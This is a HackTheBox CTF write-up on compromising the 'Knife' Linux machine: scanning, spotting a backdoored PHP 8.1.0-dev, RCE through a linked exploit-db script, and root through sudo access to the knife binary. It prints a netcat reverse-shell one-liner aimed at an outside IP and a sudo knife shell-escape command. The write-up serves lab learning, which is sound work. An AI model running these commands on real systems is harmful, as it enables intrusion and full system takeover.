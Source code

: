 # Knife HackTheBox Writeup
### Level: `Easy` | OS: `Linux`

![logo](1.png)

## Scanning
We run nmap on all ports with scripts and software versions.

![](2.png)

## Enumeration
We use **curl** tool and we headers enumerate, we view "*PHP/8.1.0-dev*", this version have a exploit for **RCE** (Remote Code Execute).
![](3.png)


## Exploitation
We search exploit in "**exploit-db.com**", we download the exploit and execute:

**Exploit**: https://www.exploit-db.com/raw/49933

![](4.png)

We read *user.txt* file:
![](5.png)

## Privilege Escalation
We open a netcat in another terminal and make it interactive with python and a couple of exports.

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.21 443 >/tmp/f
```
In addition, we can see that by executing "*sudo -l*", we have access to the "**knife**" binary as **SUDO**.

![](6.png)

We Google and found a way to exploit this misconfiguration to gain root access.

```bash
sudo knife exec -E 'exec "/bin/sh"'
```
We execute the statement, become root and read the file "*root.txt*".

![](7.png)

---
## About

David Utón is Penetration Tester and security auditor for web and mobiles applications, perimeter networks, internal and industrial corporate infrastructures, and wireless networks.

#### Contacted on:

<img src='https://m3n0sd0n4ld.github.io/imgs/linkedin.png' width='40' align='center'> [David-Uton](https://www.linkedin.com/in/david-uton/)
<img src='https://m3n0sd0n4ld.github.io/imgs/twitter.png' width='43' align='center'> [@David_Uton](https://twitter.com/David_Uton)

